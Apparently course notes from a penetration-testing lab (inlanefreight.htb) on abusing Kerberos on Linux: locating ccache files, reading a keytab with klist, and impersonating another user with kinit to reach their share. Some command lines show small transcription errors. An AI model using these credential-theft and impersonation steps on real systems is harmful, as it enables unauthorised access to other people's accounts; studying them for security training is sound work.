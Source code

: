 #### Reviewing Environment Variables for ccache Files.

```shell-session
david@inlanefreight.htb@linux01:~$ env | grep -i krb5
```

As mentioned previously, `ccache` files are located, by default, at `/tmp`. 
* We can search for users who are logged on to the computer,  
* if we gain access as root or a privileged user, we would be able to impersonate a user using their `ccache` file while it is still valid.

#### Searching for ccache Files in /tmp

```shell-session
david@inlanefreight.htb@linux01:~$ ls -la /tm
```

## Abusing KeyTab Files

As attackers, we may have several uses for a keytab file. 
* The first thing we can do is impersonate a user using `kinit`. 
	* To use a keytab file, we need to know which user it was created for. 
*  `klist` is another application used to interact with Kerberos on Linux. 
	* This application reads information from a `keytab` file. 

#### Listing keytab File Information
```shell-session
avid@inlanefreight.htb@linux01:~$ klist -k -t 

/opt/specialfiles/carlos.keytab 
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```
The ticket corresponds to the user Carlos. We can now impersonate the user with `kinit`. 
* Let's confirm which ticket we are using with `klist` and then import Carlos's ticket into our session with `kinit`.

#### Impersonating a User with a keytab

```shell-session
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```
We can attempt to access the shared folder `\\dc01\carlos` to confirm our access.
